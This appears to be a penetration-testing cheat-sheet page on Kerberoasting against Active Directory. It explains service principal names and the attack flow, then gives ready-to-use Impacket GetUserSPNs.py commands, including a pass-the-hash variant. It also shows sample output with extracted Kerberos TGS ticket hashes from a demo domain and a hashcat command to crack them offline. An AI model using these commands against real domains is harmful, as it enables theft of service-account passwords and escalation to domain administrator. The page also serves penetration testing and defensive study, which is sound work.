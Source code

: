 # Kerberoasting - SPN

## SPN

> A service principal name (SPN) is the name by which a Kerberos client uniquely identifies an instance of a service for a given Kerberos target computer. If you install multiple instances of a service on computers throughout a forest, each instance must have its own SPN. A given service instance can have multiple SPNs if there are multiple names that clients might use for authentication. For example, an SPN always includes the name of the host computer on which the service instance is running, so a service instance might register an SPN for each name or alias of its host.

## Kerberoasting

So what's this attack all about :

* An attacker **scans** Active Directory for **user accounts with SPN values set** using any number of methods, including PowerShell and LDAP queries, scripts provided by the Kerberoast toolkit, or tools like PowerSploit, Bloodhound ..
* Once a list of target accounts is obtained, **the attacker requests service tickets** from AD using SPN values
* Using **MimiKatz** or **GetSPN.py**, the attacker then extracts the service tickets to memory and saves the information to a file
* Once the tickets are saved to disk, the attacker passes them into a **password cracking** script that will run a dictionary of passwords as NTLM hashes against the service tickets they have extracted until it can successfully open the ticket. When the ticket is finally opened, it’ll be presented to the attacker in clear text.

### `Impacket-GetUserSPNs`

{% embed url="https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py" %}

```bash
GetUserSPNs.py $domain_name/$username:$password -dc-ip $ip -request

# if we have hashes
GetUserSPNs.py -dc-ip $ip -hashes f220d3988deb3f516c73f40ee16c431d:f220d3988deb3f516c73f40ee16c431d -outputfile output.txt $domain_name/$username


# output should give :
ServicePrincipalName                Name        MemberOf                                              PasswordLastSet
----------------------------------  ----------  ----------------------------------------------------  -------------------
http/win10.sittingduck.info         uberuser    CN=Domain Admins,CN=Users,DC=sittingduck,DC=info  2015-11-10 23:47:21
MSSQLSvc/WIN2K8R2.sittingduck.info  sqladmin01                                                        2016-05-13 19:13:20

$krb5tgs$23$*sqladmin01$SITTINGDUCK.INFO$SPN*$6e5307df490c6e3339f613fdc5655785$80ba233b4d24531202f2e354c99e7eda807bde7aeeb48ee4cdb6bf809d78652413699e3cff8b9b78b9ee70e997a538155fc7f72e208d715020d458b8413d4b12b212738833c4694d84937d65cb8ecd0020c00a5d39c07da35a748ea2cb062fca4fa9b282e7046d70ee1cae4cfee7d6f791052e283
$krb5tgs$23$*uberuser$SITTINGDUCK.INFO$SPN*$27c08ed2a8d5394f66e8c13c25c98393$310b787ec5c10b20fcc0acb1406b6a6e2ffddd71de3dc4c70c19e5dfcf262cc88574e61cb3940ebfd574b2bb555f2b05f84d8526e3cf46fc0ca57e03467729757cbf79da9f55cde9dabdda68e80dce6564e9f1b904b0585dbc813b82abf89e973e41c102b664f4c649f85acaf7904a273dddcb9315a66f27334f313190e1caf4f5055b671d250f5912cc1871a1dd4a6126087ddfb98ade8f7dde495ee8ad76583aa5a12eef63a690dd82a15eaaca0d7594f2f1dbc899035d89dd628b291590058cfb3405d1dfe4a383be5704465d9c8972ef8f1cba3541fdfa7dcf5063eaed74051fa18bd73f7b4f7d77

# copy the tickets hashes to file and crack them
hashcat -m 13100 tickets_file dict_file -O
```
